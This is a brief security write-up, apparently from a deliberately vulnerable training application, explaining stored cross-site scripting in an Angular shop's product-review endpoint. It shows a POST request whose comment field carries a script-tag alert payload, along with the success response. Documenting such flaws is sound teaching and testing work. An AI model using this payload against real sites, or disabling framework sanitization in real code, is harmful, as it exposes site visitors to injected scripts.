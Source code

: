 # Stored Cross Site Scripting (XSS)
The stored variant XSS, like other variations, inject scripts into benign, non-attacker controlled websites.  The distinction is stored XSS  _stores_ the injected scripts/code on the server, resulting in the script persisting beyond the current HTTP session.

## Exploitation
**Prerequisites:** _Authenticated, Ordered the Product_

**Location:** _POST /productreviews_

While posting reviews HTML tags, including script, can be specified in the _comment_ parameter. The Angular application is configured to bypass Angular's two primary protections: encoding all interpolated variables and auto-removal of script tags which prevent Stored XSS (or any other XSS).  Below is an exploitation example:

    POST /productreviews
    raw:
    {
    "product" : {"id" : 1},
    "title" : "Disgusting",
    "grade" : 1,
    "comment" : "<script>alert(1);</script>"
    }

To execute the script go to the ProductPage of the review you POSTed to, in our case Product 1 or Vanilla Candle.

Successful exploitation looks like:

    {
        "success": true,
        "code": 200,
        "message": "Success"
    }
